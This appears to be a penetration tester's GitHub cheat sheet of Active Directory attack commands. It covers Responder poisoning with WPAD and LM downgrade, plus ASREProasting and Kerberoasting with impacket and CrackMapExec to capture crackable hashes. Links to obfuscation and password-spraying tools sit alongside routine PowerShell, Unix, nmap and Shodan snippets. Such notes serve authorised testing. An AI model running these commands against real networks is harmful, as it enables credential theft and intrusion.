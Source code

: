 # **ITSEC Notes**

## Poisoning and Spoofing (LLMNR NBT-NS)

Pretender
https://github.com/RedTeamPentesting/pretender

Responder
https://github.com/lgandx/Responder

Examples

``` responder -I eth0 ```

``` responder -I eth0 -A ``` Analyze mode

``` responder -I eth0 -wF ``` WPAD

``` --lm ``` Downgrade

``` responder -wrf --lm -v -I eth0 ```

## ASREProast
https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py

users list dynamically queried with an LDAP anonymous bind

```
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'
``` 

users list dynamically queried with a LDAP authenticated bind (password)

```
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'
``` 

CrackMapExec

```
crackmapexec ldap $TARGETS -u $USER -p $PASSWORD --asreproast ASREProastables.txt --KdcHost $KeyDistributionCenter
``` 

## Kerberoasting
https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py

```
python GetUserSPNs.py -debug -request -outputfile kerberoasting.txt -dc-ip 1.1.1.1 -target-domain domain.local domain/user:password
```


## Tools
https://github.com/Cerbersec/Ares

https://github.com/cddmp/enum4linux-ng

https://github.com/0xsp-SRD/mortar

https://github.com/danielbohannon/Invoke-Obfuscation

https://github.com/aas-n/spraykatz


## Powershell

### Ping a List of Computers

```
$ServerName = Get-Content "c:\Computers.txt"  
  
foreach ($Server in $ServerName) {  
  
        if (test-Connection -ComputerName $Server -Count 2 -Quiet ) {   
          
            "$Server is Pinging "  
          
                    } else  
                      
                    {"$Server not pinging"  
              
                    }      
          
}
```

### Get IPv4 Address from a List
```
$Servername = Get-Content "C:\Computers.txt" 

ForEach ($Server in $Servername) {

 (Get-ADComputer -Properties IPv4Address).IPv4Address

 }
 ```

## Unix Commands

### Print/Split Certain Columns, Space delimited -F ' ' / Column 1 $1  

```
awk -F ' ' '{print $1}' Macs.txt > MacsNamesOnly.txt
```

### Split a file n (100) number of lines into part1/2/etc
```
split -l 100 full part --numeric-suffixes=1
```

### Reformat usermames first.last@domain.com to last + first letter
```
while read LINE in; do
        EMAIL=`echo $LINE | awk -F\@ '{print $1}'`
        NAME=`echo $EMAIL | awk -F\. '{print $NF}'`
        CHAR1=`echo $LINE | cut -c1`
        echo ${NAME}${CHAR1}
done < emails.lst
```

### Get Ips from a file
```
egrep -o '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}' list | sort | uniq > ips
```

## Nmap

### Useful Switches 
```
-p- all ports
--open only show open ports
-iL use a target list

Convert xml output to html files
&& xsltproc part1.xml -o part1.html 

```


## Metasploit

### Install Metasploit
````
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
````

## Shodan
### Useful Searches
```
org:"companyname"
net:"1.1.1.0/24"
```

## Notes
Identify Domain Controller
````
nslookup  
 type set type=all 
 _Idap._tcp.dc_msdcs."Domain_Name" 
 ````


